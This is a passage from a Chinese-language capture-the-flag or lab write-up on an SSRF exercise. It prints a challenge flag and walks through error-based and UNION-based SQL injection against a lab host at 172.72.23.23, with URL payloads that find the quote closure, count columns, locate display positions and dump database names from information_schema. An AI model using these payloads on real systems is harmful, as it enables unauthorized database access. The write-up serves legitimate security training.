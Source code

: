 ![image-20240904173105802](https://image.201068.xyz/assets/29.SSRF/image-20240904173105802.png)

#### flag4

```
flag{nisp4_hidden_flag4}
```

### 172.72.23.23

#### sql注入

```
http://172.72.23.23
```

![image-20240904172857535](https://image.201068.xyz/assets/29.SSRF/image-20240904172857535.png)

##### 闭合方式

```
http://172.72.23.23?id=1'%20--+
```

![image-20240904173331218](https://image.201068.xyz/assets/29.SSRF/image-20240904173331218.png)

单引号闭合

##### 字段数

```mysql
http://172.72.23.23?id=1'%20order%20by%204--+ 
http://172.72.23.23?id=1'%20order%20by%205--+ 
```

![image-20240904191816749](https://image.201068.xyz/assets/29.SSRF/image-20240904191816749.png)

![image-20240904191852082](https://image.201068.xyz/assets/29.SSRF/image-20240904191852082.png)

有4个字段数

##### 显示位

```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,4--+
```

![image-20240904191947285](https://image.201068.xyz/assets/29.SSRF/image-20240904191947285.png)

1，2，4是显示位

##### 数据库名

```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,group_concat(schema_name%20separator%200x3c62723e)%20from%20information_schema.schemata--+

http://172.72.23.23?id=0'%20union%20select%201,2,3,database()%20from%20information_schema.schemata--+
```
